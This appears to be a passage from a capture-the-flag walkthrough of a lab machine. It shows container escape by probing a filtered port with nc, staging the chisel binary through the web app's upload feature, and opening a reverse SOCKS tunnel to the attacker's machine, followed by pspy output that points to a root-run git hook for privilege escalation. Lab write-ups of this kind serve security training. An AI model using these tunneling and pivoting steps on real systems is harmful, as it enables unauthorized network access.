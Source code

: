 We must found a way to scape from this container to our machine. We can notice that from here we have access to the filtered port 3000.

```console
/app # nc -nv 10.10.11.164 3000
	10.10.11.164 (10.10.11.164:3000) open
```

We can try forward the port to our machine with chisel. Download the binary into the container. First use the upload function we have in the web to upload the binary. We can see that the path it is saved is `http://10.10.11.164/uploads/chisel` . If we try downloading from the container we will get an error:

```console
/root # wget http://10.10.11.164/uploads/chisel
	Connecting to 10.10.11.164 (10.10.11.164:80)
	wget: server returned error: HTTP/1.1 500 INTERNAL SERVER ERROR
```

But if we download it from the localhost:

```console
/root # wget http://127.0.0.1/uploads/chisel
	Connecting to 127.0.0.1 (127.0.0.1:80)
	saving to 'chisel'
	chisel               100% |********************************| 8544k  0:00:00 ETA
	'chisel' saved
```

This is because the container doesn’t have a direct connection to the target or our machine. 

We can use chisel on our machine:

```console
zero@pio$ sudo chisel server --port 3000 -v --reverse --socks5
```

And on the container:

```console
/app # ./chisel client 10.10.16.44:3000 R:5000:socks
```

Now we can access it on localhost:5000. We can see that is a git repository, with the previous founded credentials we can get an RSA.

# Privilege Escalation

Executing [pspy](https://github.com/DominicBreuker/pspy) we can see that it is commiting backups automatically:

```
2022/08/29 22:54:01 CMD: UID=0    PID=23023  | git commit -m Backup for 2022-08-29 
2022/08/29 22:54:01 CMD: UID=0    PID=23025  | /bin/sh .git/hooks/pre-commit 
2022/08/29 22:54:01 CMD: UID=0    PID=23026  | git push origin main 
2022/08/29 22:54:01 CMD: UID=0    PID=23032  | /usr/lib/git-core/git-remote-http origin http://opensource.htb:3000/dev01/home-backup.git
```
